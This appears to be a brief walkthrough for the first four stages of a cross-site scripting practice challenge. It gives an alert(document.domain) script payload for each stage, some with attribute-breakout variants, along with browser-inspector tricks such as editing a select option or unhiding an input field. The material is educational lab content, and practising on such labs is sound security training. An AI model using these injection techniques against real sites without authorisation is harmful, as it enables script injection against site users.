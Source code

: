 ## Stage #1
**Payload:** `<script>alert(document.domain)</script>`


## Stage #2
**Payload:** `"><script>alert(document.domain)</script>//`


## Stage #3
Go to inspect and change a option (e.g. USA) to `<script>alert(document.domain)</script>`
Then choose this and click search


## Stage #4
Go to inspect. You'll see a hidden input field after the select tag. Make it visible by removing `type`.
Then use this payload in that input field:
```
"><script>alert(document.domain)</script>//
```

